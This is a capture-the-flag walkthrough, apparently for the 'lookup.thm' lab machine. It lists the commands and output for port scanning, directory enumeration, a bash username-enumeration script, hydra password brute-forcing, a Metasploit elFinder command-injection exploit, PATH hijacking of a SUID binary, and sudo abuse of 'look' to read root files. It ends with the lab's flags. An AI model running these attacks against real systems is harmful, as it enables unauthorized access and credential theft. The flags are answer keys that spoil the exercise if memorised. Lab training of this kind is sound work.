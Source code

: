 
First -> Scanning :


1.

sudo masscan -p 1-65535 --interface tun0 --rate 250 10.10.247.158

sudo masscan -p 1-65535 --interface tun0 --rate 250 10.10.247.158
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2024-11-23 07:18:05 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 22/tcp on 10.10.247.158                                   
Discovered open port 80/tcp on 10.10.247.158  


2.

sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p22,80 --open --min-rate=1000 10.10.247.158 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 02:25 EST
Nmap scan report for lookup.thm (10.10.247.158)
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login Page
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   201.64 ms 10.2.0.1 (10.2.0.1)
2   ... 3
4   325.93 ms lookup.thm (10.10.247.158)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.28 second





Second -> Information Gathering(Enumaration) :


1.
whatweb http://lookup.thm                                                                                                  

http://lookup.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.247.158], PasswordField[password], Title[Login Page]

2.
gobuster dir --url http://lookup.thm/ --wordlist=/usr/share/dirb/wordlists/common.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lookup.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 719]
/server-status        (Status: 403) [Size: 275]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================


3.

ffuf -w /usr/share/legion/wordlists/gvit_subdomain_wordlist.txt -u http://FUZZ.lookup.thm -mc 200


4.

script for user enumeration

#!/bin/bash

# Define the target URL
url="http://lookup.thm/login.php"

# Define the file path containing usernames
file_path="/usr/share/seclists/Usernames/Names/names.txt"

# Check if the file exists
if [[ ! -f "$file_path" ]]; then
    echo "Error: The file $file_path does not exist."
    exit 1
fi

# Loop through each username in the wordlist
while IFS= read -r username; do
    # Skip empty lines
    if [[ -z "$username" ]]; then
        continue
    fi

    # Send POST request with fixed password
    response=$(curl -s -X POST "$url" -d "username=$username&password=password")

    # Check for specific strings in the response
    if echo "$response" | grep -q "Wrong password"; then
        echo "Username found: $username"
    elif echo "$response" | grep -q "wrong username"; then
        continue  # Silent continuation for wrong usernames
    fi
done < "$file_path"

./enum_users.sh   
Username found: admin
Username found: jose


5.

password enumeration with hydra :

hydra -l jose -P ~/Desktop/CTF/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong"

[80][http-post-form] host: lookup.thm   login: jose   password: password123

So 

User -> jose 
Pass -> password123


After login that should add the sub domain of website that files.lookup.thm

10.10.247.158 lookup.thm files.lookup.thm

exploit 

search elFinder
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
options
run

ls -la /home
ls -la /home/think
cat /home/think/.password


find / -perm /4000 2>/dev/null
/usr/sbin/pwm

echo $PATH
export PATH=/tmp:$PATH
echo $PATH

echo '
#! bin/bash
echo "uid=33(think) gid=33(think) groups=33()think"
' > /tmp/id

chmod +x id
/usr/sbin/pwm

i got the wordlist for think password

wordlist_for_pass

jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171

hydra -l think -P pass.txt ssh://lookup.thm -I

ssh :

user -> think 
pass -> josemario.AKA(think)

privilege esclation :

sudo -l
(ALL) /usr/bin/look
LFILE=/root/root.txt
sudo look '' "$LFILE"


user.txt : 38375fb4dd8baa2b2039ac03d92b820e
root.txt : 5a285a9f257e45c68bb6c9f9f57d18e8


D0Ne!!
